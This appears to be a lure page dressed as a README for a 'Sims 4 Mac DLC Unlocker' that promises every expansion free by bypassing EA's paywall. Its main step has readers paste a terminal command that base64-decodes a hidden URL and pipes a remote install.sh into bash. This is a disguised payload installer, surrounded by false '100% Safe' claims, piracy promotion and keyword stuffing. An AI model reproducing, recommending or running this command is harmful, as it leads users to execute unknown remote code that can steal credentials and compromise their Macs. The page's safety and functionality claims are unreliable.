 # The Sims 4 Mac DLC Unlocker - Unlock All Expansions & Packs

![The Sims 4 DLC Showcase](https://i.ytimg.com/vi/as8qKJoheUk/hq720.jpg)

---

### 🔽 Download The Sims 4 Full DLC Collection

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is The Sims 4 Complete DLC Unlocker for Mac?

The Sims 4 Complete DLC Unlocker for macOS is the ultimate gateway to endless creativity in EA's life simulation masterpiece. This powerful tool transforms your base game into the definitive Sims 4 experience by granting instant access to every piece of additional content ever released - all expansions, game packs, and stuff packs become yours without restrictions.  

Designed specifically for Mac users (including M1/M2 chips), this solution bypasses EA's paywalls while preserving your existing saves and mods. Experience all 12 expansion worlds, supernatural powers from Realm of Magic, the university journey from Discover University, and thousands of build/buy items - all seamlessly integrated into your game as if officially purchased.  

The unlocker works magically in the background without modifying original game files or requiring additional launchers. It's perfect for storytellers who want complete creative freedom, builders craving all architectural items, and players who wish to explore every gameplay feature EA has developed.  

![The Sims 4 DLC Worlds](https://media.karousell.com/media/photos/products/2021/6/29/origin__steam_the_sims_4_all_d_1624951234_56603abf_progressive.jpg)

---

## Key Features & Benefits

- 🌟 **All 12 Expansion Packs** - From Seasons to Growing Together  
- 🧙 **Occult Gameplay** - Vampires, Spellcasters & Werewolves unlocked  
- 🏫 **Premium Experiences** - University, Fame, Eco Living & more  
- 🛋️ **Thousands of Items** - Every stuff pack (Tiny Living, Paranormal etc.)  
- ⚡ **M1/M2 Optimized** - Runs flawlessly on Apple Silicon  
- 🔒 **100% Safe** - No account risks or file modifications  

Transform your Sims 4 into the ultimate life simulation sandbox with all DLC content appearing as legitimately owned in your game.  

---

## 🔍 Keywords
  
The Sims 4 Mac DLC, The Sims 4 Mac DLC Unlocker, sims 4 complete collection mac, sims 4 all dlc unlock mac, sims 4 premium edition macos, sims 4 full content mac, sims 4 m1/m2 dlc access, sims 4 complete experience, sims 4 unrestricted mac version, The Sims 4 DLC for Mac, The Sims 4 DLC Mac Download, The Sims 4 DLC for Mac Download, The Sims 4 DLC Mac, The Sims 4 DLC Download Mac, The Sims 4 DLC Download for Mac, The Sims 4 DLC full version, Mac Download The Sims 4 DLC, Download Mac The Sims 4 DLC, Download The Sims 4 DLC Mac, Download The Sims 4 DLC for Mac
